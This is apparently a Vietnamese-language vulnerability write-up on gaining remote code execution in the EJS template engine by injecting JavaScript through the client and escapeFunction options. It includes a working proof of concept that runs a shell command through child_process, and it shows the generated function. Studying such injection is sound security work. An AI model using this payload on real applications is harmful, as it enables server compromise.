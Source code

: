 - Đến đây ta đã biết rằng hàm sau sẽ được execute và hàm được tạo bởi các string ghép lại ? Vậy sẽ thế nào nếu ta có thẻ input tùy ý vào hàm này qua options của ejs? Từ đó lấy RCE ? Ta sẽ đi tìm một vài điểm nào đó có thể cho ta input vào . Nhìn sơ ta có thể thấy 
```js 
      if (opts.outputFunctionName) {
        if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) {
          throw new Error('outputFunctionName is not a valid JS identifier.');
        }
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
```
Nhưng vì có regrex khá căng nên cũng không khả thi lắm. Riêng chỉ có đoạn này :  
```js 
    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }
```
Well cả 2 biến client và escapeFn đều được lấy từ options object vào ? Sẽ ra sao nếu ta split javascript code với ";" và chèn rce code vào ? 
```js 
const ejs = require("ejs")
const template = '<h1>Hello <%= name %></h1>';
escapeFunction = "JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());"
const data = { name: "12113awefeaw" }
const compiled = ejs.render(template, data, { client: 1, escapeFunction: escapeFunction }); // not works 
console.log(compiled.toString())
```
Khi này function sau sẽ được generate ra :  
```js 
function anonymous(locals, escapeFn, include, rethrow
) {
rethrow = rethrow || function rethrow(err, str, flnm, lineno, esc) {
  var lines = str.split('\n');
  var start = Math.max(lineno - 3, 0);
  var end = Math.min(lines.length, lineno + 3);
  var filename = esc(flnm);
  // Error context
  var context = lines.slice(start, end).map(function (line, i) {
    var curr = i + start + 1;
    return (curr == lineno ? ' >> ' : '    ')
      + curr
      + '| '
      + line;
  }).join('\n');

  // Alter exception message
  err.path = filename;
  err.message = (filename || 'ejs') + ':'
    + lineno + '\n'
    + context + '\n\n'
    + err.message;

  throw err;
};
    /*OUR OPTIONS GOES IN HERE */
escapeFn = escapeFn || JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());;
var __line = 1
  , __lines = "<h1>Hello <%= name %></h1>"
  , __filename = undefined;
```
